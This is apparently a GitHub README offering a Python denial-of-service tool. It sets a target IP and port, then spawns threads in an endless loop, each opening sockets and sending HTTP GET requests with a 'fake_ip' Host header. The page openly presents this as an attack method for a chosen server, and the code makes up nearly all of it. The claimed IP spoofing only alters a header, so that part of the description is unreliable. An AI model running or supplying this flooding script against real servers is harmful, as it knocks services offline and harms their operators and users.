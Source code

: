 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host
‍‍‍‍```
‍‍‍‍import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80
```
```
an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()
```
```
while True:
    thread = threading.Thread(target=attack)
    thread.start()
```

# Don't be disappointed
